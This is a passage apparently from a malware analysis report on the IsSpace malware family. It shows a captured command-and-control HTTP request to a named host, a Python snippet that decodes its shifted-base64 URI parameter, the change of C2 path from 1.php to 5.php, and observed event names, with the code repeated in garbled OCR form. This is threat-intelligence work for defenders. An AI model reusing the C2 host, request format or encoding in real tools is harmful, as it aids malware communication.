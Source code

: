 '''
URI Request:

GET 
/5.php?62H72xihwn4LqfdOqTV4W2AthjuOeCa2k0RUvE7CicXxN2MWFre2pqH8gIdMMJQbzS0
AMo+rT4GGalhcebmCbjdrjZlyDhmUjE7QO5mIXZTAucGt3LeLXxOxGiV1G4zecHSPAX3AiAeR+
BGFsc3wtMhOWzXfithXYeCKnjh1O7pXsYqyKqfl=HpVzs4YXZb=UQY=BNEnr/77jW5JTLNI4aed
99 HTTP/1.1
Connection: Keep-Alive
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, 
like Gecko) Chrome/40.0.2214.115 Safari/537.36
Host: www.sanseitime.com
'''

uri_string = 
"62H72xihwn4LqfdOqTV4W2AthjuOeCa2k0RUvE7CicXxN2MWFre2pqH8gIdMMJQbzS0AMo+rT
4GGalhcebmCbjdrjZlyDhmUjE7QO5mIXZTAucGt3LeLXxOxGiV1G4zecHSPAX3AiAeR+BGFsc3
wtMhOWzXfithXYeCKnjh1O7pXsYqyKqfl=HpVzs4YXZb=UQY=BNEnr/77jW5JTLNI4aed99"

b64_string = 
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
prefix_int = int(uri_string[0:2])
out = ""

for u in uri_string[2:]:
	ind = b64_string.index(u) - prefix_int
	out += b64_string[ind]

decoded = base64.b64decode(out)




12345678910111213141516171819202122232425262728293031

import base64 '''URI Request: GET /5.php?62H72xihwn4LqfdOqTV4W2AthjuOeCa2k0RUvE7CicXxN2MWFre2pqH8gIdMMJQbzS0AMo+rT4GGalhcebmCbjdrjZlyDhmUjE7QO5mIXZTAucGt3LeLXxOxGiV1G4zecHSPAX3AiAeR+BGFsc3wtMhOWzXfithXYeCKnjh1O7pXsYqyKqfl=HpVzs4YXZb=UQY=BNEnr/77jW5JTLNI4aed99 HTTP/1.1Connection: Keep-AliveUser-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.115 Safari/537.36Host: www.sanseitime.com''' uri_string = "62H72xihwn4LqfdOqTV4W2AthjuOeCa2k0RUvE7CicXxN2MWFre2pqH8gIdMMJQbzS0AMo+rT4GGalhcebmCbjdrjZlyDhmUjE7QO5mIXZTAucGt3LeLXxOxGiV1G4zecHSPAX3AiAeR+BGFsc3wtMhOWzXfithXYeCKnjh1O7pXsYqyKqfl=HpVzs4YXZb=UQY=BNEnr/77jW5JTLNI4aed99" b64_string = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="prefix_int = int(uri_string[0:2])out = "" for u in uri_string[2:]: ind = b64_string.index(u) - prefix_int out += b64_string[ind] decoded = base64.b64decode(out)





Additionally, the C2 URI changes in this variant, from 1.php to 5.php
IsSpace Analysis
When initially run, IsSpace will create a unique event to ensure a single instance of the malware is running at a given time. This event name appears to be unique per the sample, as multiple samples contained unique event names. The following event names have been observed in the samples that were analyzed:

e6al69MS5iP
v485ILa3q5z
